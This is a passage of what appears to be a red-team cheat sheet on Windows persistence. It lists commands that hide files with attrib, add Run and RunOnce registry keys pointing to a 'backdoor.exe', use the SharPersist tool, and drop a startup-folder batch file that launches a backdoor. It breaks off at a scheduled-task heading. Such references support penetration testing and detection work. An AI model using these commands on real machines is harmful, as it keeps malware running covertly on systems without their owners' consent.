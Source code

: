 ## Simple User

Set a file as hidden

```powershell
attrib +h c:\autoexec.bat
```

### Registry HKCU

Create a REG_SZ value in the Run key within HKCU\Software\Microsoft\Windows.

```powershell
Value name:  Backdoor
Value data:  C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

Using the command line

```powershell
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
reg add "HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce" /v Evil /t REG_SZ /d "C:\Users\user\backdoor.exe"
```

Using SharPersist

```powershell
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "hkcurun" -v "Test Stuff" -m add -o env
SharPersist -t reg -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -k "logonscript" -m add
```

### Startup

Create a batch script in the user startup folder.

```powershell
PS C:\> gc C:\Users\Rasta\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup\backdoor.bat
start /b C:\Users\Rasta\AppData\Local\Temp\backdoor.exe
```

Using SharPersist

```powershell
SharPersist -t startupfolder -c "C:\Windows\System32\cmd.exe" -a "/c calc.exe" -f "Some File" -m add
```

### Scheduled Task
